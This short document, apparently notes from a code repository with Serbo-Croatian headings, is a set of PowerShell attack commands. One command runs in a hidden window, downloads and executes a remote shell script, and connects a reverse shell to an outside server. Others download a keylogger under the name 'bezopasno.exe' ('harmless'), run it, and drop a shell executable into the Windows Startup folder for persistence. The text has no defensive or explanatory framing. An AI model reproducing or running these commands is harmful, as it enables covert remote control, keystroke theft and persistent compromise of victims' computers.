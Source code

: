 --- POVEZIVANJE ---

powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"

--- SKIDANJE I POKRETANJE KEYLOGGERA ---

Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe" -OutFile "$env:LOCALAPPDATA\bezopasno.exe"

& "$env:LOCALAPPDATA\bezopasno.exe"



https://github.com/Jango47/reverseShell/releases/download/runshell/runshell.exe
Invoke-WebRequest -Uri "https://github.com/Jango47/reverseShell/releases/download/runshell/runshell.exe" -OutFile "$env:LOCALAPPDATA\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\bezopasnishell.exe"

